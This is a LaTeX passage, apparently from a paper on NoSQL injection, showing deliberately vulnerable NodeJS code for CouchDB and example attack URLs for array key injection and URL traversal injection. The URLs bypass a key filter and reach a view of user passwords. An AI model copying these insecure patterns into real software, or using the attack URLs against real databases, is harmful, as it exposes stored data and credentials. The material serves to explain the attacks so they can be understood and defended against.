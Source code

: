 \begin{lstlisting}[caption={Vulnerable NodeJS example for array key injection on CouchDB}, label={lst:PHPArrayInjection}]
function getDocument(key, callback) {
  if (key === "secret" || key[0] === "_") {
    callback("No access!");
  } else {
    nano.use('table').get(key, callback);
  }
}

getDocument(req.query.key, handleResult);
\end{lstlisting}

\begin{lstlisting}[caption={Attack vectors on CouchDB for array key injection via HTTP GET}, label={lst:PHPArrayInjection}]
https://example.org?key[]=secret
https://example.org?key[]=_all_docs
\end{lstlisting}

\subsection{URL Traversal Injection}

\begin{lstlisting}[caption={Vulnerable NodeJS example for URL traversal injection on CouchDB}, label={lst:PHPArrayInjection}]
function getDocument(key, callback) {
  nano.use('table').get(key, callback);
}

getDocument(req.query.key, handleResult);
\end{lstlisting}

\begin{lstlisting}[caption={Attack vectors on CouchDB for URL traversal injection via HTTP GET}, label={lst:PHPArrayInjection}]
https://example.org/get?key=_design/credentials/_view/user_password
\end{lstlisting}

\section{Memcached Key-Value Cache}
\subsection{Array Key Injection}